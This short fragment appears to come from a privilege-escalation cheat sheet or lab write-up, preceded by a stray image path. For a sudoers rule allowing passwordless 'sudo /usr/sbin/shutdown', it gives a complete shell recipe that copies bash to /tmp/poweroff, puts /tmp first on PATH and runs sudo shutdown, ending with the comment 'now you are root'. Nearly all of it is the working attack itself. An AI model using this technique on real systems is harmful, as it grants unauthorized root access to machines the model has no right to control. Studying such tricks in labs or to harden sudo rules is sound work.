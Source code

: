 - `(root) NOPASSWD: /usr/sbin/shutdown`. Do the following:

```shell
cp /bin/bash /tmp/poweroff
chmod +x /tmp/poweroff
export PATH=/tmp:$PATH
sudo /usr/sbin/shutdown
#now you are root
```